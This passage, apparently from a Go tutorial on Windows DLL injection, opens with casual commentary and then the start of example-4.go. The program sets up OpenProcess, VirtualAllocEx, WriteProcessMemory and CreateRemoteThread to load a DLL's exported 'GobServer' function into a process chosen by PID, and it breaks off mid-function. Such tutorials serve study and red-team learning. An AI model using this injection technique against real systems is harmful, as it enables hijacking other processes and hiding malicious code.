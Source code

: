 **you probably want to kill that process...**

**So, how do we call the exported dll function GobServer now that we aren't just using the default MainDll exported function, how would we even call the MainDll function if it existed???**  

**Freds, I mead threads... and some memory address calculation trick fuckery.**  

- example-4.go  

```go
package main

import (
	"fmt"
	"os"
	"strconv"
	"syscall"
	"unsafe"
)

const (
	FALSE                     = 0
	PROCESS_QUERY_INFORMATION = 0x0400
	PROCESS_VM_WRITE          = 0x0020
	PROCESS_VM_OPERATION      = 0x0008
	PROCESS_CREATE_THREAD     = 0x0002
	PAGE_EXECUTE_READWRITE    = 0x40
	PAGE_READ_WRITE           = 0x00000004
	MEM_RESERVE               = 0x00002000
	MEM_COMMIT                = 0x00001000
	MEM_RELEASE               = 0x8000
	PROCESS_ALL_ACCESS        = PROCESS_QUERY_INFORMATION | PROCESS_VM_WRITE | PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD
)

var (
	targetDll          = "C:\\\\gob-server.dll"
	dllLength          = len(targetDll)
	kernel32           = syscall.NewLazyDLL("kernel32.dll")
	loadLibraryA       = kernel32.NewProc("LoadLibraryA")
	openProcess        = kernel32.NewProc("OpenProcess")
	writeProcessMemory = kernel32.NewProc("WriteProcessMemory")
	createRemoteThread = kernel32.NewProc("CreateRemoteThread")
	closeHandle        = kernel32.NewProc("CloseHandle")
	virtualAllocEx     = kernel32.NewProc("VirtualAllocEx")
	virtualFreeEx      = kernel32.NewProc("VirtualFreeEx")
	getModuleHandle    = kernel32.NewProc("GetModuleHandle")
)

func main() {
	// parse process ID
	if len(os.Args) < 2 {
		fmt.Println("PID not found :( exiting...")
		return
	}
	pid, err := strconv.Atoi(os.Args[1])
	if err != nil {
		fmt.Println("Invalid PID:", os.Args[1])
		return
	}
	fmt.Printf("PID: %#x\n", pid)

	functionName := "GobServer"

	dllHandle, err := syscall.LoadLibrary(targetDll)
	if err != nil {
```